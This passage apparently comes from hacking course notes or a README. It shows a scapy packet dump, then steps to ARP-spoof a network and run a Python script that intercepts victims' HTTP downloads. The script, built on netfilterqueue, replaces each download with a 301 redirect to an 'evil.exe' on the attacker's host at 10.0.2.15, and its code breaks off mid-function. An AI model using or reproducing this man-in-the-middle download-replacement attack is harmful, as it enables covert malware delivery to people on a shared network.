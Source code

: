 ```http layer 




HTTP Response
###[ IP ]### 
  version   = 4
  ihl       = 5
  tos       = 0x0
  len       = 502
  id        = 22341
  flags     = 
  frag      = 0
  ttl       = 255
  proto     = tcp
  chksum    = 0x4e48
  src       = 143.186.120.171
  dst       = 10.0.2.15
  \options   \
###[ TCP ]### 
     sport     = http
     dport     = 38990
     seq       = 2682544
     ack       = 2581237984
     dataofs   = 5
     reserved  = 0
     flags     = PA
     window    = 32335
     chksum    = 0xd0f2
     urgptr    = 0
     options   = []
###[ Raw ]### 
        load      = 'HTTP/1.1 200 OK\r\nContent-Type: text/plain\ ...
```


> ack = 2682544 in  Request is same as seq = 2682544 in response: This shows that the response corresponds to the request made.

#### Intercepting and Replacing downloads on the network
1. Run the arp_spoof.py to become man in the middle
2. Run the replace_download.py to replace the victims download request.

```python
#!/usr/bin/env python3 

import netfilterqueue as nq
import scapy.all as scapy

ack_list = []
attack_load = "HTTP/1.1 301 Moved Permanently\nLocation: http://10.0.2.15/evil-files/evil.exe\n\n"

def set_load(scapy_packet, load):
    print(f'[+] replacing file')
    scapy_packet[scapy.Raw].load = load
    del scapy_packet[scapy.IP].len
    del scapy_packet[scapy.IP].chksum
    del scapy_packet[scapy.TCP].chksum

    return scapy_packet
    

def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.Raw):
```
